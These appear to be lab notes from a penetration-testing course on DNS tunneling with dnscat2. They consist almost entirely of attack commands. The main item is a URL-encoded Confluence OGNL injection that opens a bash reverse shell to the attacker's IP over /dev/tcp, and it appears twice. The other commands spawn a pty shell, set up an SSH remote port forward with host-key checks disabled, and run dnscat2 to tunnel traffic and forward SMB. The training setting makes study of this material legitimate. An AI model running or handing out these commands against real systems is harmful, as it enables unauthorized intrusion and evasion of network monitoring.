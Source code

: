 Tunneling Through Deep Packet Inspection - DNS Tunneling with dnscat2 - HRSHARES OS Credentials:

No credentials were provided for this machine

192.168.195.63

Tunneling Through Deep Packet Inspection - DNS Tunneling with dnscat2 - CONFLUENCE01 OS Credentials:

No credentials were provided for this machine

Exploit

```bash
curl http://192.168.163.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.164/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

Victim

```bash
# SSH Remote Port Forward tunnel from KALI to PGDATABASE
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -R 127.0.0.1:2222:10.4.163.215:22 bmoser@192.168.45.164 -v -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"

```

Attack

```bash
# SSH into FELINEAUTHRITY
ssh -p 22 kali@192.168.163.7 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" 

# Run dnscat2 server
dnscat2-server feline.corp
...
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53

dnscat2>

# Spawn Reverse Shell
curl http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.170/4444%200%3E%261%27%29.start%28%29%22%29%7D/

# SSH into PGDATABASE
sudo systemctl start ssh

ssh -p 2222 database_admin@127.0.0.1 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"

# Get TXT record
resolvectl status
nslookup -type=txt www.feline.corp 192.168.195.64
...
give-me.cat-facts.internal      text =

# Run dnscat2 client
./dnscat feline.corp

# Connect to the newly created session window 1
dnscat2> New window created: 1
dnscat2> window -i 1

# Establish a SSH local like forword
dnscat2> listen 0.0.0.0:4455 172.16.195.217:445
```